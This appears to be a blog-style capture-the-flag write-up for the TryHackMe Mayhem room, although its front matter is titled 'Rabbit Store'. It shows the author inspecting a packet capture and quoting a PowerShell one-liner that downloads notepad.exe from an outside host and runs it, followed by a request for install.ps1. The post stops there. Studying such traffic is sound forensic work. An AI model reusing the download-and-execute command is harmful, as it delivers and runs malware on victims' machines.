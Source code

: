 ```yaml
---
title: "TryHackMe: Rabbit Store"
author: cilgin
date: 2025-07-08 13:57:28 +0300
categories: [CyberSecurity]
tags: [CTF, TryHackMe, Medium]
pin: false
math: false
mermaid: false
image:
  path: /assets/img/2025-07-08-TryHackMe-Mayhem/main.webp
---
```


Hi I'm making [TryHackMe Mayhem](https://tryhackme.com/room/mayhemroom) room.

---

Firstly unzip the file

And we will be seeing `traffic.pcapng` file.

Lets open that with preferred text editor.

```bash
nvim traffic.pcapng
```

```bash
❯ lsz
Permissions Size User   Date Modified Name
.rwxr-xr-x  305k cilgin 15 Nov  2023   traffic.pcapng

~/Downloads via  v3.13.5
❯ chmod -x traffic.pcapng
```

firtly lets change permissions to without executable. we don't want to execute this file by mistake.

```text
$aysXS8Hlhf = "http://10.0.2.37:1337/notepad.exe";$LA4rJgSPpx = "C:\Users\paco\Downloads\notepad.exe";Invoke-WebRequest -Uri $aysXS8Hlhf -OutFile $LA4rJgSPpx;$65lmAtnzW8 = New-Object System.Net.WebClient;$65lmAtnzW8.DownloadFile($aysXS8Hlhf, $LA4rJgSPpx);Start-Process -Filepath $LA4rJgSPpx



GET /install.ps1 HTTP/1.1
```

We can see that this file contains notepad.exe and install.ps1.
